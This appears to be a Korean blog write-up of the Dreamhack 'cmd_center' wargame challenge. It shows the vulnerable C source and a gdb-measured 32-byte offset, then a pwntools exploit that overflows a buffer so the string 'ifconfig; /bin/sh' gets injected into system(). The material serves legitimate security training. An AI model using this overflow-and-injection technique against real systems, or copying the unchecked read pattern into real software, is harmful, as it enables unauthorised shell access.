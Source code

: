 ```yaml
---
title: cmd_center
description: Dreamhack [Wargame] - cmd_center
author: juhyeongkim
date: 2024-10-31 6:20:00 +0900
categories: [Dreamhack, Wargame]
tags: [Dreamhack, Wargame, Pwnable]
# toc: false
# comments: false
# math: true
# mermaid: true
# image:
#   path: 
#   lqip: 
#   alt: 
---
```


[문제 링크](https://dreamhack.io/wargame/challenges/117)

## 바이너리 분석

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void init()
{
	setvbuf(stdin, 0, 2, 0);
	setvbuf(stdout, 0, 2, 0);
}

int main()
{

	char cmd_ip[256] = "ifconfig";
	int dummy;
	char center_name[24];

	init();

	printf("Center name: ");
	read(0, center_name, 100);

	if (!strncmp(cmd_ip, "ifconfig", 8))
	{
		system(cmd_ip);
	}

	else
	{
		printf("Something is wrong!\n");
	}
	exit(0);
}
```

![image](https://github.com/user-attachments/assets/937f31ab-22e8-466b-b8cd-7eea6ceca5cf)

먼저, `canary` 이외에는 다른 보호 기법이 전부 적용되어 있기 때문에 `BOF`를 통한 `RAO` 공격은 가능할 것인데, 바이너리에 `BOF` 취약점을 찾기 힘들기 때문에 일단 넘어가서 다른 관점에서 살펴보자.

```c
if (!strncmp(cmd_ip, "ifconfig", 8))
{
  system(cmd_ip);
}
```

먼저, `char cmd_ip[256] = "ifconfig";`의 주소에서 `8bytes`에 저장된 데이터가 `"ifconfig"`라면 `cmp_ip`를 인자로 하는 `system` 함수를 수행할 수 있게 된다.

**이 뜻은 `cmd_ip`의 앞에서부터 `8bytes` 값만 `"ifconfig"`로 유지하고 뒤에 어떤 문자열을 붙여도 해당 문자열을 `system`의 인자로 전달하여 `Command Injection` 공격을 수행할 수 있다는 것이다.**

그렇다면, **`cmd_ip`에 `"ifconfig; /bin/sh"`을 입력하는 것을 목표로 잡고 바이너리를 다시 분석해보자.**

```c
char center_name[24];

init();

printf("Center name: ");
read(0, center_name, 100);
```

여기를 보면, `center_name`에 `100bytes` 만큼 입력을 받는데, `center_name`은 크기가 `24bytes`이기 때문에 `BOF` 취약점이 발생한다.

만약 `center_name` **뒤의** `100bytes` 범위 내에 `cmd_ip`가 위치한다면 `BOF`를 통해 `cmp_ip`를 위의 목표처럼 덮어서 쉘을 획득할 수 있을 것이다.\
(참고로 `BOF` 취약점은 존재하지만, 쉘 실행 함수도 없고 `libc_base`를 구하기 힘들기 때문에 카나리가 없어도 `RAO` 공격은 힘들다.)

그럼 `gdb`를 통해 `center_name`과 `cmd_ip`의 위치를 살펴보자.

![image](https://github.com/user-attachments/assets/e61dded2-d47c-4c78-a5b1-d7a65fb6a062)

위 이미지를 보면, 

1. `read`의 두 번째 인자(`rsi`)인 `center_name`이 `[rbp-0x130]`임을 알 수 있고

2. `strncmp`의 첫 번째 인자(`rdi`)인 `cmp_ip`가 `[rbp-0x110]`임을 알 수 있다.

다행히 `cmp_ip`가 `center_name` 뒤에 위치해서 `BOF`를 통해 `center_name`에 값을 덮어서 `cmp_ip`까지 도달하여 `cmp_ip`의 문자열을 조작할 수 있다.

두 변수가 저장된 주소의 차이는 `0x20 = 32`이기 때문에 `b'a' * 0x20`을 전달해준 후, `strncmp`에 걸리지 않기 위해 `b'ifconfig'`를 붙이고, 다시 b`; /bin/sh`을 붙여서 전달해주면 될 것이다.

<br>

## Exploit

```py
from pwn import *

p = remote('host3.dreamhack.games', 15414)

payload = b'a' * 0x20    # &cmd_ip - &center_name = 0x20(32)
payload += b'ifconfig'   # strncmp 우회
payload += b'; /bin/sh'  # injection

p.sendafter(b'Center name: ', payload)

p.interactive()
```
